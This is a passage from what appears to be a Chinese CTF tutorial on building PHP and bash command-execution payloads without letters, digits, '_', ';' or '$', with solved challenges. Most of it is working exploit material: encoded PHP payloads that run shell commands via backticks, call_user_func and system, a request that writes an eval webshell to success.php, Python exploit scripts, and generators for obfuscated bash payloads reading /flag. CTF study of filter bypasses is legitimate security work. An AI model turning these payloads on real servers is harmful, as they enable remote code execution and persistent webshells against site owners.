4__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
```

由于PHP中函数对大小写不敏感，所以我们最终执行的是ASSERT()而不是assert(),太长了。。。。

# 四、方法进阶与绕过

## 0x01 过滤了_

在我们上面的例子中，_的主要用途就是在构造变量。但其实最简便的方法里面，我们可以完全不用_，这里给出一个例子。

闭合php脚本标签，再用断标签执行我们的代码：

```php
1)GET传参数
?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?> 
即：?><?=`{${_GET}[%a0]}`?>   //通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令，%a0是_的url编码
完整payload：
?cmd=?%3E%3C?=`{${~%22%a0%b8%ba%ab%22}[%a0]}`?%3E&%a0=whoami
分析下这个Payload，?>闭合了eval自带的<?标签。接下来使用了短标签。{}包含的PHP代码可以被执行，~"%a0%b8%ba%ab"为"_GET"，通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令。
    
2)POST传参数
?><?=`{${~"%a0%af%b0%ac%ab"}[%a0]}`?>     POST数据：%a0=ipconfig
即：?><?=`{${_POST}[%a0]}`?> //通过反引号进行shell命令执行。最后我们只要POST传参%a0即可执行命令
完整payload：
?cmd=?%3E%3C?=`{${~%22%a0%af%b0%ac%ab%22}[%a0]}`?%3E   POST数据：%a0=ipconfig
```

```python
获取取反字符：
1.php脚本
<?php
$a = urlencode(~('_POST'));
echo $a;   //%A0%AF%B0%AC%AB，url编码中大小写无所谓，%A0%AF%B0%AC%AB和%a0%b8%ba%ab解码都是_GET

2.python脚本
def get(shell):
    hexbit=''.join(map(lambda x: hex(~(-(256-ord(x)))),shell))
    hexbit = hexbit.replace('0x','%')
    print(hexbit)
get('_POST')   #%a0%af%b0%ac%ab
```

看看测试结果：

**GET传参：**



**POST传参数：（需要在burp发包，hackbar发包没用，因为hackbar发包会把POST部分的%a0中的%号编码，导致服务器解码失败，所以还是抓包到burp然后改包吧）**



## 0x02 过滤了;

分号我们只是用在结束PHP语句上，我们只要把所有的PHP语句改成短标签形式，就可以不使用;了。

## 0x03 过滤了$

过滤了$的影响是我们彻底不能构造变量了。

解决办法如下：

### PHP7中--使用($a)()这种方法

在PHP7中，我们可以使用($a)()这种方法来执行命令。这里我使用call_user_func()来举例(**不使用assert()的原因上面已经解释过**)。
 我构造了

```php
shell=(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');
 其中~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c是"call_user_func"，~%8c%86%8c%8b%9a%92是"system"，~%88%97%90%9e%92%96是"whoami"。 
     
成功执行命令
```



### 0x05 PHP5中使用上传临时文件的方法

PHP5中不再支持($a)()这种方法来调用函数。因此利用方法较为复杂。
 详细过程可以参考P神的[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list)(膜爆P神!!)
 我们首先要知道几个知识点:
 **1.** Linux下可以用 **.** 来执行文件
 **2.** PHP中POST上传文件会把我们上传的文件暂时存在/tmp文件夹中，默认文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母。(说句题外话，这个知识点在最近的CTF中频繁出镜，具体利用有如文件包含等)
 假如我们要执行生成的文件，那我们可以尝试下

```php
. /???/?????????
```

但是我们会发现这样(通常情况下)并不能争取的执行文件，而是会报错，原因就是这样匹配到的文件太多了，系统不知道要执行哪个文件。
 根据P神的文章，最后我们可以采用的Payload是:

```php
. /???/????????[@-[]
```

最后的[@-[]表示ASCII在@和[之间的字符，也就是大写字母，所以最后会执行的文件是tmp文件夹下结尾是大写字母的文件。由于PHP生成的tmp文件最后一位是随机的大小写字母，所以我们可能需要**多试几次**才能正确的执行我们的代码。(50%的几率嘛)
 固有最终数据包:

```http
POST /?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: xxxxxx:2333
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 106

----------123
Content-Disposition:form-data;name="file";filename="1.txt"

echo "<?php eval(\$_POST['shell']);" > success.php
----------123--
```

上面我们写入了一个shell。如图，成功Getshell。


#### 给个利用脚本

```python
#GET的
#coding:utf-8
#author yu22x
import requests
url="http://xxx/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)

#改个POST的：
#coding:utf-8
import requests
url="http://b23b5651-5117-4813-8704-59e6e86d1b87.challenge.ctf.show/"
files={'file':'cat f*'}
datas={"cmd":"?><?=`. /???/????????[@-[]`;?>"}
response=requests.post(url,files=files,data = datas)
html = response.text
print(html)
```

# 五、几道题目练习

## 题目一：限制长度+禁用_符号

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>50){
        die("Too Long.");
    }
    if(preg_match("/[A-Za-z0-9_]+/",$code)){
        die("Not Allowed.");
    }
    @eval($code);
}
?>
```

### 解法一

很明显，我们上面提到的不用_写shell的方法也适用于本题，直接对%a0传参cat flag.php就行

```php
?code=?%3E%3C?=`{${~%22%a0%b8%ba%ab%22}[%a0]}`?%3E&%a0=type f1ag.txt
```



### 解法二

当然，利用异或，我们也可以构造出类似的Payload:

```php
?><?=`{${_GET}[_]}`?>
即：
?><?=`{${"!'%("^"~``|"}[%a0]}`?>
编码:(使用php脚本urlencode()函数编码，hackbar有问题)
?><?=`{${"%21%27%25%28"^"%7e%60%60%7c"}[%a0]}`?>&%a0=type f1ag.txt

?code=?><?=`{${"%21%27%25%28"^"%7e%60%60%7c"}[%a0]}`?>&%a0=type f1ag.txt
```



### 解法三

解法一和解法二属于威力大，可直接任意代码执行。但在此题中由于有hint的存在，我们可以不必任意代码执行，而只是执行getFlag()即可。
 利用异或，有Payload:

```php
?code=${"`{{{"^"?<>/"}['+']();&+=getFlag

即：?code=${_GET}['+']();&+=getFlag
```

同样利用取反也可以执行代码，不再赘述。

## 题目二：限制长度35+禁用$和_符号

```php
<?php 
include 'flag.php';
if(isset($_GET['code']))
{
    $code=$_GET['code'];
    if(strlen($code)>35){
    die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code))
    {
        die("NO.");
    }
    @eval($code);
}
else
{
    highlight_file(__FILE__);
}
//$hint="php function getFlag() to get flag";
?>
```

### 解法一

这道题很明显可以利用上面所讲的

```php
. /???/????????[@-[]
```

来执行命令，毕竟getshell了还愁没有flag?就不再介绍此种方法



### 解法二

同样解法一属于任意代码执行，但在这道ctf题目中，我们已知了目录下存在flag.php文件所以可以利用通配符直接匹配文件并输出。
 故有Payload:

```php
code=?><?=`/???/??? ????.???`?>
```

其中/???/??? ????.???匹配/bin/cat flag.php，这样也能得到flag。

## 题目三：过滤;~^`&|等符号，只能自增

这是De1ctf Hard_Pentest_1的第一部分。第一步要求我们上传一句话木马。其正则限制为:

```php
/[a-z0-9;~^`&|]/is
```

~、^都被过滤了，很明显就是要用自增法构造了。由于;也被过滤了，所以只能使用短标签法。
 有EXP:

```php
<?=$_=[]?><?=$_=@"$_"?><?=$_=$_['!'=='@']?><?=$___=$_?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?= $___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$____='_'?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$_=$$____?><?=$_[__]($_[_])?>
```

其实从上面这些题目，我们可以看到，在三种方法中，使用异或、取反的方法构造出来的Payload长度较短，使用自增的方法构造出的Payload较长。所以一般限制长度执行的题目考察的都是~、^(不然限制你长度为100还是太长的也没什么意思)，但当过滤了~、^(如De1ctf那道)，思路很明显就是自增了。而过滤了;的情况，就指明要你使用短标签了。

## 题目四：限制不同字符出现个数小于0xd(13个)

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )//限制不同字符出现个数小于0xd(14个)
    die('you are so close, omg');

eval($_);
?>
```

### 解法：

#### 代码审计：

```php
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
正则匹配\x00(NULL)-\x20(Space)，数字0-9
正则匹配'"`$&.,|[{_defgops] 和\x7F(DEL)这些字符
传入的_参数不能含有这些字符，明显是无字符数字RCE类型，可以使用取反，异或绕过

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
传入的_参数进行不一样的字符的统计，不能超过13个字符
//count_chars($string)函数统计 string 中每个字节值（0..255）出现的次数，使用多种模式返回结果返回值
根据不同的 mode，count_chars() 返回下列不同的结果： 
• 0 - 以所有的每个字节值作为键名，出现次数作为值的数组。  
• 1 - 与 0 相同，但只列出出现次数大于零的字节值。  
• 2 - 与 0 相同，但只列出出现次数等于零的字节值。  
• 3 - 返回由所有使用了的字节值组成的字符串。  
• 4 - 返回由所有未使用的字节值组成的字符串。
eg:
print_r(count_chars("D32iAhk",3));
echo "\n";
print_r(strlen(count_chars("D32iAhk",3)));  //输出：23ADhik  7
```

#### 解题：

先看一下phpinfo():

```php
<?php
$str = "p h p i n f o";
$arr1 = explode(' ', $str);
echo "~";
foreach ($arr1 as $key => $value) {
    echo "%".bin2hex(~$value);   //其实url编码就是一个字符ascii码的十六进前面加上%
}
得到：(~%8f%97%8f%96%91%99%90)();
```



禁用了很多的函数，但是我们仍可以用scandir()、var_dump()、readfile()、print_r()等来查看目录，并读取flag，先print_r(scandir(.))输出当前目录下的内容

```php
<?php
$str = "p r i n t _ r";//s c a n d i r
$arr1 = explode(' ', $str);
echo "~";
foreach ($arr1 as $key => $value) {
    echo "%".bin2hex(~$value);   //其实url编码就是一个字符ascii码的十六进前面加上%
}
得到输出：
~%8F%8D%96%91%8B%A0%8D
~%8C%9C%9E%91%9B%96%8D
~%D1
    
//print_r浏览器传递取反用异或表示如下：    
<?php
echo urlencode('print_r' ^ urldecode('%ff%ff%ff%ff%ff%ff%ff'));
//输出：%8F%8D%96%91%8B%A0%8D    因此有：urldecode('%8F%8D%96%91%8B%A0%8D')^urldecode('%ff%ff%ff%ff%ff%ff%ff')=print_r
由此构造payload:
//print_r(scandir(.));
?_=(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));
```

被第二层if给拦截了，一定是我们的payload没有通过strlen(count_chars(strtolower($_), 0x3))的检查，测试一下

```php
<?php
$_ = "print_r(scandir('.'));";
echo strlen(count_chars(strtolower($_), 0x3));
//返回14
?>
```

测试长度为14确实超出了规定范围，这个时候我们可以**使用异或的方法通过已存在的字符构造出来字符来代替三个其中的字符**，这样长度就从14缩到了11，选择使用pscadn来代替itr，python脚本如下：

```python
#python取字脚本
str = 'pscadn'
target = 'itr' 
for m in target:
    for a in str:
        for b in str:
            for c in str:
                if ord(a) ^ ord(b) ^ ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m, a, b, c))
输出：
i = c^d^n
t = s^c^d
r = p^c^a
```

count_chars() 函数统计的是字符串所用不同字符的个数，所以可以使用异或的方法，通过已存在的字符构造三个没有的字符，这样16个字符就变成了13个。

比如构造n=c^d^i，那么通过url传递，就要构造n=%9c^%9b^%96^%ff=~%91=%ff^%91

```php
echo urldecode('%9c')^urldecode('%9b')^urldecode('%96')^urldecode('%ff');   //n
echo ~urldecode('%91');                                                     //n
echo urldecode('%91')^urldecode('%ff');                                     //n
```

这里我选用pscadn来构造itr

```php
<?php
$dic = 'p s c a d n';
$arr1 = explode(' ', $dic);
foreach ($arr1 as $key => $value) {
    echo "$value = ".urlencode($value ^ urldecode('%ff'))."\n";
}
运行可以得到：   
p = %8F
s = %8C
c = %9C
a = %9E
d = %9B
n = %91
所以构造
    
i = c^d^n = %9c^%9b^%91^%ff//echo urldecode('%9c')^urldecode('%9b')^urldecode('%91')^urldecode('%ff'); 输出i
t = s^c^d = %8c^%9c^%9b^%ff
r = p^c^a = %8f^%9c^%9e^%ff
```

那么我们的payload即print_r(scandir(.))将其中的ntr也替换掉即可变成13个字符

```php
?_=print(scandir(.));
?_=(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));

print_r:
(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)
变换成:
(%8F%8f%9c%91%8c%A0%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%9c%9b%FF%9c%FF%9c)^(%FF%9e%91%FF%9b%FF%9e)

scandir:
(%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)
变换成
(%8C%9C%9E%91%9B%9c%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%FF%FF%FF%FF%9b%9c)^(%FF%FF%FF%FF%FF%91%9e)

    
    
//本地测试查看是否为原字符
<?php
$print_r=urldecode('%8F%8f%9c%91%8c%A0%8f')^urldecode('%FF%9c%9b%FF%9c%FF%9c')^urldecode('%FF%9e%91%FF%9b%FF%9e')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
$scandir=urldecode('%8C%9C%9E%91%9B%9c%8f')^urldecode('%FF%FF%FF%FF%FF%9b%9c')^urldecode('%FF%FF%FF%FF%FF%91%9e')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
print($print_r);
print("\n");
print($scandir);
 
输出为：
print_r
scandir
```

 变换后的payload:

```php
print_r(scandir(.));
((%8F%8f%9c%91%8c%A0%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%9c%9b%FF%9c%FF%9c)^(%FF%9e%91%FF%9b%FF%9e))(((%8C%9C%9E%91%9B%9c%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%FF%FF%FF%FF%9b%9c)^(%FF%FF%FF%FF%FF%91%9e))((%D1)^(%FF)));
```



flag文件在最后，可以使用end直接将指针执行最后一个文件，然后读取，使用readfile(end(scandir(.));

同样先将 readfile(end(scandir(.));进行取反操作

```php
//readfile(end(scandir(.));
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%91%9B)^(%FF%FF%FF))(((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

同样是16个字符，要使用三个已存在的字符异或生成三个不存在的字符，变成13个字符。

```php
str = 'readfile'
target = 'nsc'
 
for m in target:
    for a in str:
        for b in str:
            for c in str:
                if ord(a)^ord(b)^ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m,a,b,c))
 
输出(取三个结果)：
n = a^f^i
s = r^e^d
c = a^d^f
```

同理将nsc分别进行异或的生成得到payload:

```php
////readfile(end(scandir(.));
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

# 利用Shell变量构造无字母RCE

## shell脚本中$的多种用法

和之前一样，首先介绍一下shell脚本中$的多种用法([参考](https://blog.csdn.net/ly_qiu/article/details/105765772))：

| 变量名 | 含义                                                  |
| ------ | ----------------------------------------------------- |
| $0     | 脚本本身的名字                                        |
| $1     | 脚本后所输入的第一串字符                              |
| $2     | 传递给该shell脚本的第二个参数                         |
| $*     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
| $@     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
| $_     | 表示上一个命令的最后一个参数                          |
| $#     | #脚本后所输入的字符串个数                             |
| $$     | 脚本运行的当前进程ID号                                |
| $!     | 表示最后执行的后台命令的PID                           |
| $?     | 显示最后命令的退出状态，0表示没有错误，其他表示由错误 |

## Web-Bash-Vino0o0o的构造思路

这种题最早的出处应该是2017年34c3CTF里的[minbashmaxfun](https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/)，然后2020年安洵杯里有一道[Web-Bash-Vino0o0o](https://xz.aliyun.com/t/8581#toc-3)，借用了这种思路，不过因为原出处里 `bash<<<{,,,,}`这种形式并不能完美的执行命令，所以出题人采用了利用八进制实现命令构造的方法，美中不足的是那种做法并不能做到不出现数字，payload里出现了数字0，但那种构造思想很有趣，我也是顺着那条思路继续构造的，我使用的环境是centos，因此某些payload其他linux上可能不适用。

首先，在linux里完美可以利用八进制的方法绕过一些ban了字母的题 ，即我们可以使用`$'\xxx'`的方式执行命令，比如我们可以用`$'\154\163'`执行ls：



可以发现有了这种技巧我们就可以在数字可用的情况下进行命令构造。

除此之外在bash里我们可以使用`[base#]n`的方式表示数字，也就是说我可以用`2#100`表示十进制数字4：



因此从这里我们又向前推进了一步，只有我们有数字1或者0那就可以继续构造命令。假如现在字母或者数字只有1和0可以用，这时我们可以使用位移运算1<<1代替2，得到payload：

```
$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

理论上它可以代替`$'\154\163'`执行命令，但事实上是不行的：



可以看到这里只解析了一层解析到`$'\154\163'`就解析不下去了，想要它继续解析，我们不难想到Linux里的eval函数：



但可惜我们是不能使用它的，所以还是得老老实实的用1或者0构造，这里我们可以想到bash里的一种语法：command [args] <<<[“]$word[“]，在这种语法下$word会展开并作为command的stdin，以此来继续执行命令：



但现在有个问题，就是用什么来代替bash，这时可以想到我之前文章里提到过的一个环境变量$0，它可以表示脚本本身的名字，而这里正是bash：



因此我们不难想出一种构造方式来：

```
$0<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```



成功执行！假如这是一道CTF题，我们就该想想怎么执行cat /flag了，你想到的payload可能是：

```
$0<<<$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```

遗憾的是，这种payload并不能执行成功：



bash会告诉你不存在`cat /flag`这种文件或者目录，很明显，bash是把它当作一个整体了，并没有有效的以空格作为分割，让cat作为命令，/flag作为参数，在ctfshow的极限命令执行题目里g4师傅给出了一种解决这种问题的方法——通过两次here-strings的方法来解析复杂的带参数命令，也就是说我们可以把payload改成：

```
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```



执行成功，我们拿到了flag，但可以看到这种构造方式不够极限，里面不但出现0更出现了1，下面，我们开始构造真正的无字母数字命令。

## 利用$#构造

在之前那篇文章里我也提到过`$#`这个变量，它可以表示#脚本后所输入的字符串个数：



如果#后面啥也没有它就是0，有一个字符串比如#就变成了1，似乎现在我们只要把1用${##}替换，0用${#}替换即可：

```
$${#}<<<$${#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```



可惜这种执行方法是不行的，因为虽然$0表示bash，${#}表示0，但把它们拼起来并不表示bash，这里$$直接执行了，意思是脚本运行的当前进程ID号。下一步你可能会想到linux里的字符串拼接，但这种拼接也只会解析第一层，不会解析到最后：



这时我们可以想到linux下感叹号!的一种用法，它可以进行变量替换：



因此理论上我们只要找到一个值为零的变量，然后就可以用这种方法进行变量替换得到$0，并且还能成功解析，这时我们很容易想到刚刚使用的${#}，毕竟它的值就是零嘛：



可以看到确实能得到bash，我们再次替换回去，可以得到新payload：

```
${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```



执行成功！但就这样还没完，毕竟这个payload理论上只是本地可以使用，像那道题原本的php环境里究竟能不能成功执行还是个未知数，我们起个本地环境：

```
<?php
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    if(preg_match("/[A-Za-z0-9]+/",$cmd)){
        die("NO.");
    }
    system($cmd);
}else{
    highlight_file(__FILE__);
}
```

把payload传过去试试：



可惜，这种方法在php里是不成功的。但这种payload并不是完全不行，经过我的研究，payload其实只是${!#}<<<${!#}这一段没解析出来bash<<<bash，所以导致命令失效，可以看到我们把它替换成$0<<<$0其实php也行：



这里面的具体原因我也不是很懂，自我感觉可能是${!#}这种复杂变量不能通过php的system函数解析出来，于是我把它换了一种形式：



其实本质上也没啥差别，我只是增加了变量$__作为过渡，减少了解析的过程，但惊喜的是这种方法即使是在php下也可以成功解析：

```
__=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```



利用脚本：

```
cmd='cat /flag'

payload='__=${#};${!__}<<<${!__}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${##}').replace('0','${#}')

payload+='\\\''

print(payload)
```

顺着这种思路，我开始思考其他构造方式。

## 利用$?构造

从上一次构造我们其实可以发现，只要我们找到一个代表值为零的变量就可以得到bash进而继续构造，$?这个变量自然而然进入我的视线，它可以显示最后命令的退出状态，0表示没有错误，其他表示有错误 ，因此只要我们的payload最后不报错它的值自然还是0了：



看我们上面的payload可以发现其实需要的数字也就0、1和2，2可以由1<<1构造出来，可以省略。不过由于$?并不像$#一样灵活，可以随意构造出来任何数字，所以我为了减轻麻烦使用自增运算构造出了1，2这两个数字，现在就已经足够了，payload：

```
__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${__}${__}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${__}${_____}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${__}))\'
```



直接像之前一样POST我们的payload的话报文里payload并没有被当作一个整体解析，所以我们可以url编码一下：



成功执行。

利用脚本：

```
cmd='cat /flag'

payload='__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```

## 利用$(())构造

利用$(())构造是g4师傅出的极限命令执行最后的预期解，不过g4师傅使用的是按位取反的方法构造出了payload，我这里给出一种不用取反的payload。

linux里可以通过`__=$(())`的方式将变量的值设置为0：



有了0我们自然可以像利用$?进行构造的方式一样通过自增继续构造：

```
__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${__}${__}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${__}${_____}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${__})